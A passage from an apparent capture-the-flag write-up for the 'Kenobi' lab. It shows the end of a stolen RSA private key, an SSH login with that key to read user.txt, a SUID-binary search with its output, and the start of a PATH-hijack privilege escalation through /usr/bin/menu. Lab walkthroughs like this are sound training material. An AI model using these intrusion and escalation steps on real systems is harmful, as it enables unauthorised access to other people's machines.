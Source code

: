     YNY61y+DdXUvywifkzFmhYkCgYB6TeZbh9XBVg3gyhMnaQNzDQFAUlhM7n/Alcb7
    TjJQWo06tOlHQIWi+Ox7PV9c6l/2DFDfYr9nYnc67pLYiWwE16AtJEHBJSHtofc7
    P7Y1PqPxnhW+SeDqtoepp3tu8kryMLO+OF6Vv73g1jhkUS/u5oqc8ukSi4MHHlU8
    H94xjQKBgExhzreYXCjK9FswXhUU9avijJkoAsSbIybRzq1YnX0gSewY/SB2xPjF
    S40wzYviRHr/h0TOOzXzX8VMAQx5XnhZ5C/WMhb0cMErK8z+jvDavEpkMUlR+dWf
    Py/CLlDCU4e+49XBAPKEmY4DuN+J2Em/tCz7dzfCNS/mpsSEn0jo
    -----END RSA PRIVATE KEY-----
    ```

Change access rights of `id_rsa` and login as kenobi to read `user.txt`:

``` sh
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.153.226
cat /home/kenobi/user.txt
```

## Task 4  Privilege Escalation with Path Variable Manipulation

To search the a system for SUID bits run the following: ```find / -perm -u=s -type f 2>/dev/null```

??? output "SUID bits"
    ``` sh
    /sbin/mount.nfs
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/snapd/snap-confine
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/bin/chfn
    /usr/bin/newgidmap
    /usr/bin/pkexec
    /usr/bin/passwd
    /usr/bin/newuidmap
    /usr/bin/gpasswd
    /usr/bin/menu
    /usr/bin/sudo
    /usr/bin/chsh
    /usr/bin/at
    /usr/bin/newgrp
    /bin/umount
    /bin/fusermount
    /bin/mount
    /bin/ping
    /bin/su
    /bin/ping6
    ```

Running```/usr/bin/menu``` shows us the binary is running without a full path:

``` txt
1. status check
2. kernel version
3. ifconfig
```
